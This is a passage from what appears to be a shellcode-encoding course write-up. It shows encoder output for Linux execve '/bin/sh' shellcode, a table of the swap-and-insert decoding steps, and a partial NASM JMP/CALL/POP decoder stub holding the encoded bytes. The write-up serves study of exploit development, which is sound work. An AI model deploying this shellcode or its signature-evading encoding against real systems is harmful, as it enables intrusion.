 #### Encoding the shellcode with the python script
```bash
[sengen@manjaro-x86 assignment4]$ python3 swapsert-encoder.py
Encoded shellcode ...
Original: "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

Format1: "\xc0\x31\x7f\x68\x50\x7f\x2f\x2f\x7f\x68\x73\x7f\x2f\x68\x7f\x69\x62\x7f\x89\x6e\x7f\x50\xe3\x7f\xe2\x89\x7f\x89\x53\x7f\xb0\xe1\x7f\xcd\x0b\x7f\x7f\x80\x7f"
Format2: 0xc0,0x31,0x7f,0x68,0x50,0x7f,0x2f,0x2f,0x7f,0x68,0x73,0x7f,0x2f,0x68,0x7f,0x69,0x62,0x7f,0x89,0x6e,0x7f,0x50,0xe3,0x7f,0xe2,0x89,0x7f,0x89,0x53,0x7f,0xb0,0xe1,0x7f,0xcd,0x0b,0x7f,0x7f,0x80,0x7f
```

### Decoding phase

| Step | Sequence     					| What is happening?                  |
|:---- |:------------------------------ | :---------------------------------- |
| 1    | \x42 \x41 \x7f \x44 \x 43 \x7f	| starting encoded bytes              |
| 2    | \x41 \x42 \x44 \x43 \x7f		| swap 1st&2nd bytes and remove byte  |
| 3    | \x41 \x42 \x43 \x44			| swap 3rd/4th bytes and remove byte  |

The decoder will acquire a reference to the location of the encoded bytes and perform the reverse actions to transform it back to executable shellcode.  To perform this task I started will a skeleton assembly file setup to perform a JMP/CALL/POP so I have the address of the encoded shellcode.

```nasm
global _start			

section .text
_start:
	jmp short call_shellcode

decoder:
	pop esi

decode:

	jmp short EncodedShellcode

call_shellcode:
	call decoder
	EncodedShellcode: db 0xc0,0x31,0x7f,0x68,0x50,0x7f,0x2f,0x2f,0x7f,0x68,0x73,0x7f,0x2f,0x68,0x7f,0x69,0x62,0x7f,0x89,0x6e,0x7f,0x50,0xe3,0x7f,0xe2,0x89,0x7f,0x89,0x53,0x7f,0xb0,0xe1,0x7f,0xcd,0x0b,0x7f,0x7f,0x80,0x7f
```

The process of decoding requires a few things to be tracked: the current location of the last decoded byte, how far out the next set of bytes to grab is, and finally testing 3 bytes ahead for another \x7f byte.  
